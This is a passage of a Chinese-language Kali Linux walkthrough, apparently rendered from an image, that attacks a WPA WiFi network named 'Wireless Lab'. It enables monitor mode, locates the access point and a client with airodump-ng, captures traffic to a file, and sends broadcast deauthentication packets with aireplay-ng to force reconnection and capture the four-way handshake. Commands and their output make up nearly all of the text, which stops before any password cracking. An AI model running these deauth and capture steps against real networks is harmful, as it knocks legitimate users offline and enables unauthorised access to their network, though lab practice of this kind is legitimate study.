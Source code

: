 ```bash
root@kali:~# ifconfig wlan0 up
#开启监听模式
root@kali:~# airmon-ng start wlan0

PHY	Interface	Driver		Chipset

phy3	wlan0		88XXau		Realtek Semiconductor Corp. RTL8812AU 802.11a/b/g/n/ac 2T2R DB WLAN Adapter
 (monitor mode enabled)
#定位AP
root@kali:~# airodump-ng wlan0
 CH  8 ][ Elapsed: 18 s ][ 2019-11-23 22:04                                         

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
               
 E4:D3:32:44:61:BE  -69       42       38    0   1  405  WPA  CCMP   PSK  <length:  0>                                      
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                               
 E4:D3:32:44:61:BE  14:9D:09:A8:4B:FE  -87    0e- 0e    46       76  Wireless Lab         
```

找到需要破解的WIFI Wireless Lab, 优化`airodump-ng`命令

```bash
root@kali:~# airodump-ng --bssid E4:D3:32:44:61:BE -c 1 -w wpa_crack wlan0

 CH  1 ][ Elapsed: 18 s ][ 2019-11-23 22:05                                         

 BSSID              PWR RXQ  Beacons  #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 E4:D3:32:44:61:BE  -65 100      215      1    0   1  405  WPA  CCMP   PSK  <length:  0>              
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                              
 E4:D3:32:44:61:BE  14:9D:09:A8:4B:FE  -86    0 -24      0        1 
```

等候一个全新的无线客户端链接AP, 做好捕获4次WPA握手生成的流量, 也可以通过广播的形式发出解除验证数据包, 迫使合法的客户端断线重连, 再捕获四次WPA握手产生的流量. 这里为了成功率`--deauth 10`

```bash
root@kali:~# aireplay-ng --deauth 10 -a E4:D3:32:44:61:BE wlan0
22:50:49  Waiting for beacon frame (BSSID: E4:D3:32:44:61:BE) on channel 1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
22:50:49  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:50  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:50  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:51  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:51  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:52  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:53  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:53  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:54  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
22:50:54  Sending DeAuth (code 7) to broadcast -- BSSID: [E4:D3:32:44:61:BE]
```
